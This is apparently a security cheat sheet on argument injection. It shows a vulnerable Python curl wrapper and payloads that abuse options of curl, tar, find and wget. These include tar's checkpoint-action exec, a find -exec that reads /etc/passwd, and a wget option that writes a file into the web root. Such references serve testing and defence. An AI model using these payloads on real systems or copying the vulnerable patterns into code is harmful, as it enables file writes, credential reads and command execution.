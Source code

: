 # Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are splited allowing to inject an argument that will save the response in an arbitrary file.
```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND] (#FIND)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```ps1
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET
Example of vulnerable code
```php
system(escapeshellcmd('wget '.$url));
```
Arbitrary file write
```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
